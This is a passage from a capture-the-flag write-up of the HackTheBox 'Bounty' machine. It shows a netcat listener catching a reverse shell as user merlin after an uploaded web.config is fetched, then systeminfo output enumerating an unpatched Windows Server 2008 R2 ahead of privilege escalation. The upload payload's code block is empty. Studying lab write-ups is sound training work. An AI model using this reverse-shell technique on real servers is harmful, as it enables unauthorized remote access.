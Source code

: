 ```xml

```

I waited on listener for a while, and fetched `/uploadedfiles/web.config` again.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000              
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.93] 49161
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
bounty\merlin
```

I got `merlin`'s shell!



# Shell as `SYSTEM`

### Enumeration

```yaml
c:\Users\merlin\Desktop>systeminfo
systeminfo

Host Name:                 BOUNTY
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3606965-84760
Original Install Date:     5/30/2018, 12:22:24 AM
System Boot Time:          1/12/2025, 6:33:30 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,565 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,597 MB
Virtual Memory: In Use:    498 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
```